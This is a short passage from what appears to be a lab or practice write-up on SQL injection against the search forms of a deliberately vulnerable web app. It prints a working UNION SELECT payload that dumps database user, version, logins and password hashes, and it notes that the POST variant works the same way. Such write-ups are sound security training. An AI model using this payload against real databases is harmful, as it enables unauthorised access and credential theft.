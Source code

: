 ### now that we know the columns of users, we can simply format the entry information into a single line and display it in this table. Accomplished with this query:

`World' union select 1, user(), version(), 4, (SELECT GROUP_CONCAT(login, ' => ', password, ' \n ') FROM users), 6, 7-- -`

![Alt text](images/SQLI_GET/user-and-hashes.png)

### the data yielded above is the 'flag' if you will.

## POST/Search

### the process for POST/Search is the exact same as with GET/Search, the only difference being that the query is not in the search bar like with GET, rather it is in a POST request header
![Alt text](images/SQLI_GET/POST-success.png)
